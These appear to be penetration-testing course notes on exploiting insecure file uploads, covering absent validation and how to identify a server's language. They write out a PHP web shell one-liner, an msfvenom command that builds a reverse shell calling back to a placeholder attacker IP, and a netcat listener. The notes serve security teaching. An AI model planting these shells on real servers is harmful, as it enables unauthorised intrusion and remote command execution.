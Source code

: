 # Basic Exploitation

## Introduction

The most common reason - weak file validation and verification, writing insecure functions, usage of outdated libraries.

Worst possible vulnerability is unauthenticated arbitrary file upload - allows any unauthenticated user to upload any file type.

Sometimes we may not have arbitrary file uploads and may only be able to upload a specific file type. This can also pose a number of vulnerabilities:
- XXE
- XSS
- DoS
- Overwriting critical system files and configurations, etc.

## Absent Validation

When there is not any validation at all we can upload directly our web shell or reverse shell script.

A web shell has to be written in the same programming language that runs the web server.

So the first step would be to **identify** what language runs the web app.

Often this can be seen by the *extensions* in the URLs, *fuzzing* the page, or using extensions like *Wappalyzer*.

## Upload Exploitation

**Web Shells**
There are a lot of web shells online that offer a lot of useful features.

For example `phpbash` or `SecLists` that offer a lot of these shells for different framewors.

But also simple web shells can be ritten without any big problem. For example on PHP apps, we can use hte `system()` function to execute system commands, and then pass it to the `cmd` parameter with `$_REQUEST['cmd']:

```sh
<?php system($_REQUEST['cmd']); >
```

**Reverse Shell**
The basic idea is that we upload a file on the target, which tries to connect to our machine, where we have activated a listener to wait for that connection.

After the connection has been established, then we can execute commands as we want.

We can **generate** our reverse shells using `msfvenom` tool.

```sh
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

Then start a listener:

```sh
nc -lvnp PORT
```

